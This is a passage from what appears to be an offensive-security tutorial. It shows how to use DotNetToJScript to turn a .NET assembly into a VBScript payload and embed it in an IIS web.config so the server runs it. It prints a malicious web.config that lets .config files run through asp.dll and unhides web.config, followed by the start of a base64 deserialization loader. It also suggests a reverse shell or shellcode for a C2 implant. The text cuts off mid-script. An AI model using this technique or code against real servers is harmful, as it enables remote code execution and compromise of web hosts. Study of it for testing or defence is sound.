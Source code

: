 ```
With **DotNetToJScript** we can not only create payloads for JScript but also for VBScript, and that's exactly what we'll be doing.

To start, you can clone the repository directly from github and open it with Visual Studio.

### Writing a Simple Payload

You can use an already existing example project "ExampleAssembly" that comes inside with the tool, and write the necessary code for your reverse shell or go even further and use Win32 API to inject shell code for your favorite C2 implant. 

I'll be doing something simple for this post and write a file to disk:

![post02-09](/images/post02-09.png)

Now, rebuild the entire solution... and we should have both **DotNetToJScript** binary and **ExampleAssembly** DLL ready to go.

### Generating VBS Payload

Since we are using the TestClass example that comes with the tool, we can execute the following command:

`.\DotNetToJScript.exe ExampleAssembly.dll -o="output.vbs" --ver=None --lang=VBScript`

The first parameter (ExampleAssembly.dll) is our payload created in the last step, then our output location and some options. I recommend you testing the best option for you, since this may variate accordingly to your target, but `--ver=None` will result in a version without "WSCRIPT.SHELL", which is exactly what we want. 

Since we are going with the default script engine, VBScript, we are passing `--lang=VBScript`.

And that's it, just copy and past to our "web.config" and execute it:

{% highlight visual basic %}
<?xml version="1.0" encoding="UTF-8"?><configuration><system.webServer><handlers accessPolicy="Read, Script, Write"><add name="new_policy" path="*.config" verb="GET" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /></handlers><security><requestFiltering><fileExtensions><remove fileExtension=".config" /></fileExtensions><hiddenSegments><remove segment="web.config" /></hiddenSegments></requestFiltering></security></system.webServer><appSettings></appSettings></configuration>
<!–-
<% 
Sub DebugPrint(s)
End Sub

Sub SetVersion
End Sub

Function Base64ToStream(b)
  Dim enc, length, ba, transform, ms
  Set enc = CreateObject("System.Text.ASCIIEncoding")
  length = enc.GetByteCount_2(b)
  Set transform = CreateObject("System.Security.Cryptography.FromBase64Transform")
  Set ms = CreateObject("System.IO.MemoryStream")
  ms.Write transform.TransformFinalBlock(enc.GetBytes_4(b), 0, length), 0, ((length / 4) * 3)
  ms.Position = 0
  Set Base64ToStream = ms
End Function

Sub Run
Dim s, entry_class
s = "AAEAAAD/////AQAAAAAAAAAEAQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVy"
```